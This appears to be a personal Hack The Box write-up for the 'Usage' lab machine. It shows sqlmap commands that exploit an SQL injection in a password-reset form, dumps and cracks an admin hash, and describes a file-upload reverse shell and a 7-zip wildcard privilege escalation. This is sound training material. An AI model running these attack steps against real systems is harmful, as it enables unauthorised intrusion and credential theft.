 **Ping**
![[Pasted image 20240712093738.png]]

**Nmap Scans**
```
mapit 10.10.11.18
```

Nmap Default Scan
![[Pasted image 20240712093836.png]]

Nmap Script and Service Scan
![[Pasted image 20240712093850.png]]

Nmap All Port Scan
![[Pasted image 20240712093906.png]]

On Port 80 http://usage.htb
![[Pasted image 20240712094342.png]]

ffuf Scan
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://usage.htb/FUZZ -t 100 -o ffuf.txt
```
![[Pasted image 20240712094449.png]]

On http://usage.htb/login
![[Pasted image 20240712094543.png]]\

There an another subdomain admin.usage.htb, when we click admin, I have added that to my hosts file
![[Pasted image 20240712095152.png]]

On http://admin.usage.htb
![[Pasted image 20240712095316.png]]

I have registered a new user and logged in
![[Pasted image 20240712095401.png]]

Found Sql Injection point
![[Pasted image 20240712210606.png]]
It is forgot-password form email parameter is vulnerable to sql injection

Request.txt
![[Pasted image 20240712100305.png]]

Running sqlmap for forgot password Post request
```
sqlmap -r request.txt -p email --level 5 --risk 3 --batch --threads 10 --dbs
```
![[Pasted image 20240712100120.png]]

Email parameter is vulnerable
![[Pasted image 20240712100723.png]]

Can't proceed further because the server error was popping again and again
![[Pasted image 20240712101200.png]]

So we have found the database name, will extract info from the database usage_blog
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump --flush-session
```
![[Pasted image 20240712223619.png]]

Found admin password hash
```
$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2
```
![[Pasted image 20240712223636.png]]

Will crack it using John
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
![[Pasted image 20240712210749.png]]



Will Jump to Initial Foothold......!

Will login into admin account with **admin:whatever1**
![[Pasted image 20240712210945.png]]

This have exploit
![[Pasted image 20240712211224.png]]

Now follow this link to get a reverse shell https://flyd.uk/post/cve-2023-24249/

We have to upload a reverse shell php payload, initial uplao9d it as .jpg to trick the system then intercept the request and add .php at the end of file name and forward it, then you can see the link to access the image (php payload), trigger it and get a reverse shell.

Got reverse shell
![[Pasted image 20240712222811.png]]

**User.txt**
![[Pasted image 20240712223128.png]]


Will Jump to Privilege Escalation.....!


Later I found id_rsa of user dash and got ssh session
![[Pasted image 20240712223921.png]]
```
ssh dash@10.10.11.18 -i id_rsa
```
![[Pasted image 20240712224005.png]]

we can se .monitor.rc in dash home directory
![[Pasted image 20240712224731.png]]

Got a password
![[Pasted image 20240712224810.png]]

Try switch to xander
![[Pasted image 20240712224912.png]]
Cooool...!

sudo privilege
![[Pasted image 20240712230646.png]]

Used the binary
![[Pasted image 20240712230725.png]]

Will use wildcard to elevate our privilege https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks
![[Pasted image 20240712231148.png]]
Used this trick to elevate our privilege, because it is using 7-zip to compress the file in the directory /var/www/html

So will do the steps in the directory /var/www/html
![[Pasted image 20240712231314.png]]
![[Pasted image 20240712231343.png]]

Got root's id_rsa, will use this to get ssh session as root
![[Pasted image 20240712231437.png]]

Changed the permissions to id_rsa and got ssh session as root
![[Pasted image 20240712231541.png]]

**Root.txt**
![[Pasted image 20240712231617.png]]



Done with Usage.....:)
